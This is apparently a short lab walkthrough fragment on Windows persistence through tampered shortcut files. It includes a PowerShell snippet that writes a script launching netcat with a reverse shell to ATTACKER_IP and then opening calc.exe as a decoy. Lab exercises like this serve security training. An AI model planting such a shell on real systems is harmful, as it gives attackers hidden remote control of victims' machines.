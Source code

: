 # Shortcut Files
1. Started up this room's machine
2. Opened up the compromised Windows machine's calculator properties

![]()

![]()

3. `PowerShell`
```PowerShell
```
4. `$scriptPath = 'C:\Path\to\directory\script.ps1'

$scriptContent = @"

Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe

"@

Set-Content -Path $scriptPath -Value $scriptContent
`

# Hijacking File Associations

